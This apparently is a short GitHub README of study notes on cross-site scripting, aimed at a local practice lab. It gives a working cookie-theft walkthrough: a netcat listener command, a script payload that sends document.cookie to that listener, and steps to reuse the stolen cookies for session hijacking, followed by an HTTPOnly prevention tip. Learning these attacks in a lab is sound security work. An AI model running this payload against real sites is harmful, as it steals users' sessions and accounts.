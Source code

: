 # WAF

## Cross Site Scripting Attack – What Is It, How Does It Works & How to Prevent It
`https://websitesecuritystore.com/blog/what-is-cross-site-scripting-attack/`

## Cross Site Scripting examples:
`https://websitesecuritystore.com/blog/real-world-cross-site-scripting-examples/`


Below are some commonly seen real-world cross site scripting examples that attackers often use, and they are:

* User Session Hijacking
* Unauthorized Activities
* Phishing Attack
* Stealing Critical Information
* Capturing Keystrokes

## Session hijacking
If the HTTPOnly is not available by calling document.cookie, JavaScript code running within the web browser can access the session cookies.

### Example of stealing cookies:

From local computer:
```shell 
nc -lvp 9999
```
Insert following payload into parameter:
```xml
<script>new Image().src="https://127.0.0.1:9999/fakepg.php?output="+document.cookie;</script>
```

Get cookies in terminal. Ctrl+C, Ctrl+V. 
In browser > Console
```javascript
document.cookie="...<cookies from terminal>..."
```
Navigate to the webpage endpoint. Ex.:
`http://localhost:7000/vulnerabilities/xss_r/`

### Prevent session hijacking:
Use HTTPOnly cookie. It's block access to the cookie value using JavaScript. 
